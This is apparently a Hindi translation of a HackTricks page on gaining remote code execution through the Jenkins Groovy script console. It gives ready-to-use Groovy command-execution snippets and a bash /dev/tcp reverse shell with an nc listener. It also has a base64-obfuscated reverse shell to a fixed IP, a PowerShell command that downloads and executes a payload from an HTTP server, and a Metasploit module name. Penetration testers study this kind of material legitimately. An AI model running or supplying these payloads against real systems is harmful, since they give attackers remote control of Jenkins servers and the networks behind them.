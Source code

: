 # Jenkins में Groovy स्क्रिप्ट के साथ RCE

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## Jenkins में Groovy स्क्रिप्ट के साथ RCE

यह Jenkins में एक नए परियोजना बनाने से कम शोरगुल से काम करता है

1. _path\_jenkins/script_ पर जाएं
2. पाठ बॉक्स के अंदर स्क्रिप्ट दर्ज करें
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
आप `cmd.exe /c dir` का उपयोग करके एक कमांड को निष्पादित कर सकते हैं।

**लिनक्स** में आप यह कर सकते हैं: **`"ls /".execute().text`**

यदि आपको पाठ में _उद्धरण_ और _एकल उद्धरण_ का उपयोग करना हो, तो आप _"""PAYLOAD"""_ (तिहरी डबल कोट) का उपयोग करके पेलोड को निष्पादित कर सकते हैं।

**एक और उपयोगी ग्रूवी स्क्रिप्ट** है (इसे बदलें \[इंसर्ट कमांड]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### लिनक्स में रिवर्स शेल

एक रिवर्स शेल एक हैकर को एक दूसरे सिस्टम में दूरस्थ नियंत्रण प्राप्त करने की अनुमति देता है। यह तकनीक लिनक्स पर भी काम करती है। रिवर्स शेल का उपयोग करके हम एक दूसरे सिस्टम में एक शेल सत्र शुरू कर सकते हैं और उसे नियंत्रित कर सकते हैं। इसके लिए हमें दूसरे सिस्टम पर एक लिसनर शेल सत्र चलाने की आवश्यकता होती है जो हमें एक निर्दिष्ट पोर्ट पर सुनने की अनुमति देता है। इसके बाद हम रिवर्स शेल स्क्रिप्ट को उस सिस्टम पर चलाते हैं जिसमें हम नियंत्रण प्राप्त करना चाहते हैं। इसके बाद हम उस सिस्टम को नियंत्रित कर सकते हैं और उसमें विभिन्न कमांड्स चला सकते हैं।

यहां एक उदाहरण है जिसमें हम एक रिवर्स शेल उपयोग करके लिनक्स पर दूसरे सिस्टम में नियंत्रण प्राप्त करते हैं:

```bash
nc -lvp <port> # लिसनर शेल सत्र चलाएं
```

और फिर दूसरे सिस्टम पर निम्नलिखित रिवर्स शेल स्क्रिप्ट को चलाएं:

```bash
bash -i >& /dev/tcp/<listener_ip>/<port> 0>&1 # रिवर्स शेल स्क्रिप्ट चलाएं
```

इसके बाद, जब रिवर्स शेल स्क्रिप्ट सफलतापूर्वक चलेगा, तो आप दूसरे सिस्टम को नियंत्रित कर सकेंगे और उसमें विभिन्न कमांड्स चला सकेंगे।
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### विंडोज में रिवर्स शेल

आप एक PS रिवर्स शेल के साथ एक HTTP सर्वर तैयार कर सकते हैं और उसे डाउनलोड और निष्पादित करने के लिए जेंकिंस का उपयोग कर सकते हैं:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### स्क्रिप्ट

आप इस प्रक्रिया को [**इस स्क्रिप्ट**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) के साथ स्वचालित कर सकते हैं।

आप MSF का उपयोग करके एक रिवर्स शेल प्राप्त कर सकते हैं:
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे ट्विटर पर फॉलो करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos**.

</details>
